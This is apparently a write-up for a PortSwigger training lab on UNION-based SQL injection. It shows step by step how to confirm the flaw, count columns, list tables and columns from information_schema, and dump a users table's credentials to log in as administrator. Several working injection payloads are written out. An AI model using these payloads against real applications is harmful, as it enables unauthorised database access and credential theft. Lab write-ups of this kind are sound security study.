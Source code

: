 # Lab: SQL injection attack, listing the database contents on non-Oracle databases
## Description
*This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.*

*The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.*

*To solve the lab, log in as the administrator user.*

## HINT

You can find some useful payloads on our [SQL injection cheat sheet.](https://portswigger.net/web-security/sql-injection/cheat-sheet)

---

# STEP 1: Verify SQLi

Normal function of Accessories parameter of the catagory filter:

![image](https://user-images.githubusercontent.com/83407557/169705069-d5ab5ebe-9847-47b3-88bc-c952aa424de9.png)

Adding a single quote to cause a server side error:

![image](https://user-images.githubusercontent.com/83407557/169705114-d1bece26-5e08-41b4-b82f-af523e473c86.png)

Then a comment to remove it and verify injection point

![image](https://user-images.githubusercontent.com/83407557/169705142-c4193d8b-cfc9-44f2-bad6-3857c369d1fd.png)


# STEP 2: Determine number of columns being returned by the query

using UNION SELECT NULL inside our '**injection point**-- 

## Test for 1 column

![image](https://user-images.githubusercontent.com/83407557/169705227-ab075686-e71c-4bc1-867f-52a435ba6277.png)

## Test for 2 columns

![image](https://user-images.githubusercontent.com/83407557/169705245-26bc40a1-e7a3-4513-92d3-a21d88a5b4ff.png)

this verifies that there are 2 columns being returned.

# STEP 3: Determine which columns return string data

## Test for column 1

![image](https://user-images.githubusercontent.com/83407557/169705312-58b23cff-1369-42ee-951e-7e89a705384f.png)

It will return string data

## Test for column 2

![image](https://user-images.githubusercontent.com/83407557/169705347-9ac350ab-b386-48f3-a3b6-96bdee4be315.png)

which also returns string data

# STEP 4: Get a list of tables in the database

For non oracle databases this can be done using the following SQL query:

```sql
 SELECT table_name FROM information_schema.tables
 ```
 Since column 2 seems more readable on screen, that is where I will put this payload, I will also replace 'abc' with 'TABLES IN THE DATABASE:' just to make that my title(since I already know where the strings will be displayed from step 3)
 
 Making the entire query:
 
 ```sql
'UNION SELECT 'TABLES IN THE DATABASE', table_name FROM information_schema.tables--
 ```
 
 This returns every table, searching through the output I find one that seems interesting:
 
 ![image](https://user-images.githubusercontent.com/83407557/169705763-c7e74107-e0a0-4bab-a8f5-7a65a7050da5.png)

# STEP 5: Get a list of columns in the found table.

Now that I know that I want to look at the table users_mwjhvu I can list the columns in a similar way, but using a where clause

```sql
'UNION SELECT 'Column in users table', column_name FROM information_schema.columns WHERE table_name='users_mwjhvu'--
```
![image](https://user-images.githubusercontent.com/83407557/169705955-63e2bbf3-cbba-4f44-b8b0-19f0380db88b.png)

# STEP 6: Get the rows from the users table

In order to get the information from another table with a union statement I need the table name(users_mwjhvu) and the column names (username_gntgua, password_edgpza). Since I also know that both columns return string data, I can make my SQL query like the following:

```sql
'UNION SELECT username_gntgua, password_edgpza FROM users_mwjhvu--
```

Which gives me the username and password of everyone in the database:

![image](https://user-images.githubusercontent.com/83407557/169706144-72a36dcb-d364-40a0-84a5-452b19f0d9a0.png)

---

# STEP 7 Log in as Administrator

since I found the password was oj29mbkl6pd8ff4ddswx i can now use that to login and solve the lab.

![image](https://user-images.githubusercontent.com/83407557/169706200-1205dac1-1ec2-40d9-9be9-abf13740585e.png)

